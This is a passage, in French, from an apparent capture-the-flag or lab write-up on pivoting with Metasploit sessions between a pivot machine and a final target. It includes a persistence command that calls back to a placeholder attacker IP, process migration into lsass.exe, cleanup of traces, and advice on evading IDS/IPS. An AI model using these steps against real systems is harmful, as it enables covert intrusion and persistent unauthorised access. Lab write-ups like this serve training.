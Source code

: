 ### **5.3 Accès final et collecte**
```bash
# Session sur la cible finale
shell
cd /
dir
type flag.txt

# Flag : c46d12f28d87ae0b92b05ebd9fb8e817
```

---

## 🔧 **Éléments techniques critiques**

### **Gestion des sessions multiples**
```bash
# Visualisation des sessions
sessions -l

# Session 1: Machine pivot (demo1)
# Session 2: Machine cible (demo2)

# Interaction avec sessions spécifiques
sessions -i 1    # Pivot
sessions -i 2    # Cible finale
```

### **Maintien de la persistance**
```bash
# Dans la session pivot
run persistence -S -U -i 10 -p 443 -r <attacker_ip>

# Migration de processus pour stabilité
migrate -N lsass.exe
```

### **Nettoyage des traces**
```bash
# Suppression des routes
route delete 10.0.19.0 255.255.240.0

# Nettoyage port forwarding
portfwd delete -l 1234 -p 80 -r <target_ip>
```

---

## ⚠️ **Points d'attention et bonnes pratiques**

### **Sécurité opérationnelle**
- Maintenir la session pivot stable
- Éviter la détection par IDS/IPS
- Limiter le bruit réseau
- Documenter les routes configurées
